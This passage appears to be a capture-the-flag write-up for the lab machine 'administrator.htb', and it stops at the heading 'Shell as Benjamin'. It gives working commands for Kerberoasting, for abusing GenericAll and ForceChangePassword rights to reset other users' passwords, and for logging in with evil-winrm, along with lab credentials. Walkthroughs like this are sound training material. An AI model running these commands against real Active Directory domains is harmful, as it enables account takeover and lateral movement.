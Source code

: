 ## Post-Compromise Attacks

### Kerberoasting

```powershell
GetUserSPNs.py -dc-ip $IP administrator.htb/olivia
```

![image.png](image%2010.png)

### ACL-Abuse

After running BloodHound and checking my privileges I see that my user has `GenericAll` privileges over account `michael`.

![image.png](image%2011.png)

```powershell
net rpc password "michael" "newP@ssword2022" -U "administrator.htb"/"olivia"%"ichliebedich" -S $IP
```

I changed password of `michael` user.

```powershell
sudo nxc smb $IP -u michael -p 'newP@ssword2022' --shares
```

![image.png](image%2012.png)

## Shell as Michael

```powershell
evil-winrm -i $IP -u Michael -p 'newP@ssword2022'
```

![image.png](image%2013.png)

Checking Michael Privileges I see that he has `ForceChangePassword` over Benjamin.

![image.png](image%2014.png)

```powershell
net rpc password "Benjamin" "newP@ssword2023" -U "administrator.htb"/"michael"%"newP@ssword2022" -S $IP
```

```powershell
sudo nxc smb $IP -u benjamin -p 'newP@ssword2023' --shares
```

![image.png](image%2015.png)

## Shell as Benjamin
